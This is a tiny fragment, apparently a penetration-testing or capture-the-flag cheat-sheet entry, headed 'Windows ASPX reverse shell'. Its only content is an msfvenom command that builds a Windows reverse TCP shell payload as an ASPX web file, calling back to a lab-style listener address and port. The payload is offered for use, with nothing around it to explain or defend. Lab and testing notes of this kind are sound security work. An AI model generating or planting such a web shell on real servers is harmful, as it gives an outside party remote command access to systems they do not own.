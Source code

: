 # Windows ASPX reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9090 -f aspx -o shell.aspx`
